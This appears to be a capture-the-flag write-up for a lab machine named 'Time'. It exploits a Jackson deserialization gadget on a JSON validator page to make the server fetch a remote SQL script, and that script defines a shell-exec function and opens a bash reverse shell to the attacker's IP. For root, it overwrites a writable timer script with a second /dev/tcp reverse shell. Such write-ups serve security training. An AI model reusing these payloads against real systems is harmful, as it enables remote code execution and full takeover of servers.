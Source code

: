 ![TIME](banner.png)

    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    
## User

On port 80 we find a webpage with a json beautifier & validator here:

![validate.png](validate.png)

Searching a bit we found a nice [CVE](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) and explanation.
This told us what we can use at the web page:
```js
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;INIT=RUNSCRIPT FROM 'http://10.10.14.53:1234/inject.sql'"}]
```

But first set up a `inject.sql` like:
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
    String[] command = {"bash", "-c", cmd};
    java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
    return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.53/1235 0>&1')
```

Now you can run 

-   your http server to provide the ´inject.sql´; 
    
-   your listener to catch the shell
    
and put the payload into the input field using "Validate (beta)".


Now we got a shell as user `pericles`.


## Root

Let's run LinPEAS on that machine.

We found a nice script we own `/usr/bin/timer_backup.sh`:
![timers.png](timers.png)
![timer_backup.png](timer_backup.png)

This gets executed by system timer once a while, so we just need to put our reverse shell in there:
```bash
echo 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' > /usr/bin/timer_backup.sh
```

Just set up a listener and wait for your root shell...
